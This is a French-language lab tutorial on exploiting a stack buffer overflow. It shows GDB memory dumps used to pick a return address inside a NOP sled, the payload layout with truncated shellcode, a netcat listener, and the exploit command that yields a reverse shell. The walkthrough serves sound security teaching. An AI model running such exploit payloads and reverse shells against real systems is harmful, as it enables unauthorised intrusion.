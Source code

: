 # Identification of the Return Address

***

### <mark style="color:red;">🔹 Identification de l’adresse de retour</mark>

Après avoir vérifié que nous contrôlons toujours l’EIP avec notre shellcode, il nous faut maintenant une **adresse mémoire** où se trouvent nos **NOPs** pour dire à l’EIP de sauter dessus.\
Cette adresse mémoire **ne doit pas contenir de bad characters** que nous avons identifiés précédemment.

***

#### <mark style="color:green;">🔹 GDB – NOPs</mark>

```bash
(gdb) x/2000xb $esp+1400
```

```
<SNIP>
0xffffd5ec:  0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4:  0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
                                 # Fin des "\x55" ---->|  |---> NOPs
0xffffd5fc:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654:  0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c:  0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
                             # |---> Shellcode
<SNIP>
```

Ici, nous devons maintenant choisir une adresse vers laquelle pointer l’EIP, et qui va exécuter les instructions **octet par octet à partir de cette adresse**.\
Dans cet exemple, nous choisissons **l’adresse `0xffffd64c`**.

<figure><img src="../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

#### <mark style="color:green;">🔹 Schéma du buffer (visualisation)</mark>

On a :

* `841` octets de remplissage (`\x55`)
* `100` octets de NOPs (`\x90`)
* `95` octets de shellcode
* `4` octets pour écraser l’EIP

Ainsi, le flux d’exécution saute dans la zone des NOPs, puis glisse jusqu’au shellcode.

***

#### <mark style="color:green;">🔹 Notes (calculs)</mark>

```
   Buffer   = "\x55" * (1040 - 100 - 95 - 4) = 841
   NOPs     = "\x90" * 100
   Shellcode= "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP      = "\x4c\xd6\xff\xff"
```

⚠️ Remarque : l’adresse `0xffffd64c` est écrite **à l’envers** dans le buffer (`little endian`) → `\x4c\xd6\xff\xff`.

***

#### <mark style="color:green;">🔹 Mise en place du listener Netcat</mark>

Comme notre shellcode ouvre un **reverse shell**, nous lançons `netcat` en écoute sur le port `31337` :

```bash
student@nix-bow:$ nc -nlvp 31337
```

```
Listening on [0.0.0.0] (family 0, port 31337)
```

***

#### <mark style="color:green;">🔹 Exécution de l’exploit</mark>

On exécute à nouveau notre exploit avec le shellcode et l’adresse corrigée :

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

***

#### 🔹 Résultat côté Netcat

```
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!
```

On teste si le shell est bien actif avec la commande `id` :

```
id
uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

✅ Nous voyons que nous avons bien une connexion depuis l’IP locale et que nous sommes dans un shell.

***

👉 Donc, en résumé :

1. On choisit une adresse **dans les NOPs**.
2. On remplace l’EIP par cette adresse (en little endian).
3. On écoute avec `netcat`.
4. On lance l’exploit → on obtient un shell.

***
